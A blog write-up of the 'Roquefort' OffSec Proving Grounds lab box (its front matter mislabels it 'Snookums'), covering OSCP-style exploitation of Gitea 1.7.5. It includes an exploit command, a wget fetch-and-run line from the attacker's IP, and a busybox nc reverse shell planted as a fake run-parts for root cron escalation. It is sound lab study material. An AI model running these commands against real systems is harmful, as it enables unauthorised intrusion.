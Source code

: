 ```yaml
---
layout: writeup
title: Snookums - Proving Grounds
date: 2024-07-24 13:32:20 +0300
description: A Writeup of the Snookums Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Gitea]
---
```


Here's a writeup for Roquefort, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:
```
21/tcp   open   ftp
22/tcp   open   ssh
53/tcp   closed domain
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

That only gives us a few options. I can't login to FTP with anonymous, and nothing shows in the URL when we visit $IP:2222. We do get a page for something called `Gitea` when we visit $IP:3000.

![Roquefort1.png](/assets/images/Roquefort/Roquefort1.png){: .center-aligned width="600px"}


The bottom of the page shows we are working with `Gitea Version 1.7.5`, so maybe we can get somewhere with that. I run a directory scan in the background as well. We also see an RCE for this version in [exploit-db](https://www.exploit-db.com/exploits/49383). Unfortunately, it requires us to authenticate, but there is a Register link, so maybe we just create our own user and run it. I use `pop:party1` and edit the exploit like this: 

![Roquefort2.png](/assets/images/Roquefort/Roquefort2.png){: .center-aligned width="600px"}


Unfortunately I get an error when executing the exploit, and it doesn't even reach my python server. I try a few different port configurations, but I can't ever get a response, and I note that there could be difficulties with this exploit if there is a firewall only allowing access from port 3000. In retrospect, the issue seems to be that this full command requires three ports - the HOST_PORT, the server port, and the shell listener - but it seems like the firewall may only allow traffic from ports 21 and 3000. I'm not positive, but I did eventually get a shell afterwards by splitting the CMD up and running twice:

1. Once with `HOST_PORT = 3000` and `CMD = 'wget http://192.168.45.183:21/shell3000.sh -O /tmp/shell && chmod 777 /tmp/shell`
2. And again with `HOST_PORT = 21` and `CMD = '/tmp/shell` with a shell listener over 3000. 

But I figured that out purely out of curiosity after I got a shell using another [exploit](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) and got it working with this command:

`python3 CVE-2020-14144-GiTea-git-hooks-rce.py -t http://192.168.182.67:3000 -u pop -p party1 -I 192.168.45.183 -P 3000`

And I can catch a shell on my penelope listener. 

![Roquefort3.png] (/assets/images/Roquefort/Roquefort3.png){: .center-aligned width="600px"}

At this point we begin our enumeration process and go through a fw things before running linpeas. Reading the output shows a few of these RED/YELLOW highlights said to be "95% a PE vector", and they all have to do with this writable folder. 

![Roquefort4.png](/assets/images/Roquefort/Roquefort4.png){: .center-aligned width="600px"}


Because this folder is in the PATH, we should be able to write something here and have it be executed by root. Usually the way I've seen this done is through a cron job - you put a malicious file in the path, and then it's executed by whoever is running the cron job. In this case, it doesn't seem like there are any. I got stuck here for a few hours, trying to find something running periodically or a way I could use one of the few binaries with SUID permissions to execute something from within this path, but I couldn't find anything. Any examples I found online required me to have some step I couldn't replicate. I also moved `gitea`  the only binary already in the `/usr/local/bin` folder to my machine and tried to analyze it, looking for any other binaries within where I might be able to modify the path. So after a few hours, I looked for a hint, which pointed me to this:

![Roquefort5.png](/assets/images/Roquefort/Roquefort5.png){: .center-aligned width="600px"}

It's something I'd seen previously and ignored. There *is* a cron job running, but it (`run-parts`) runs *hourly*. I've never seen that in a lab and to be honest, explicitly understood to be out of the scope of the OSCP, which I am studying for. Usually cron jobs used in privesc for this kind of lab runs every few minutes to minimize the time spent waiting. Lessons learned, I guess. At this point I create a reverse shell in the path by running `echo 'busybox nc 192.168.45.183 21 -e /bin/bash' > run-parts` from within /usr/local/bin and then `chmod 777 run-parts`, setting up the shell on port 21 and waiting. 

![Roquefort6.png](/assets/images/Roquefort/Roquefort6.png){: .center-aligned width="600px"}

Boom, done. Lessons learned - cron jobs aren't limited to every few minutes for labs. Check that exploits found online use ports that aren't blocked by a firewall in the given lab environment. On to the next one. 